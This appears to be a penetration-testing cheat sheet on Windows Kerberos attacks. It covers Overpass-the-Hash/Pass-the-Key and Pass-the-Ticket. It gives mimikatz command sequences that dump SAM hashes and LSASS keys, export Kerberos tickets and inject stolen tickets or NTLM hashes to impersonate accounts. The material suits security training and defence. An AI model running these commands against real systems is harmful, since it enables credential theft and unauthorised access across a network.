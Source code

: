 
# [=] **Overpass-the-hash / Pass-the-Key**

- you have NTLM hash, if you use it to authenticate using NTLM it’s Pass the Hash
- if you use it to create a TGT it’s Overpass the Hash
- this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

```bash
cmd> ./mimikatz.exe
mimikatz> privilege::debug
mimikatz> token::elevate # elevate security token from high integrity to system integrity
mimikatz> lsadump::sam
mimikatz> sekurlsa::ekeys # List Kerberoas Encrypted Keys 
mimikatz> sekurlsa::pth /user:Administrator /domain:localhost /ntlm:**dumped_ntlm /run:powershell.exe**
```

---

# [=] Pass the Ticket (PtT)

<aside>
💡 how it works:

- During a pass the ticket attack, the attacker extracts a Kerberos **Ticket Granting Ticket (TGT)** from a system’s **LSASS** memory and then imports it on another system.
- then be used to request Kerberos service tickets (TGS) and subsequently gain access to network resources.
- there is no identifying information in the TGT regarding the computer the ticket came from.
</aside>

This kind of attack is similar to Pass the ticket/Key, but instead of using hashes to request a ticket, the ticket itself is stolen and used to authenticate as its owner.

Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).

```bash
PS> mimikatz.exe
mimikatz> privilege::debug # Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
mimikatz> sekurlsa::tickets /export # this will export all of the .kirbi tickets into the directory that you are currently in
mimikatz> kerberos::ptt <ticket>.kirbi # Inject the ticket in our session (**Injecting tickets in our own session doesn't require administrator privileges.**)
mimikatz> klist #  Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```

 You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

![https://i.imgur.com/9nxjeTS.png](https://i.imgur.com/9nxjeTS.png)

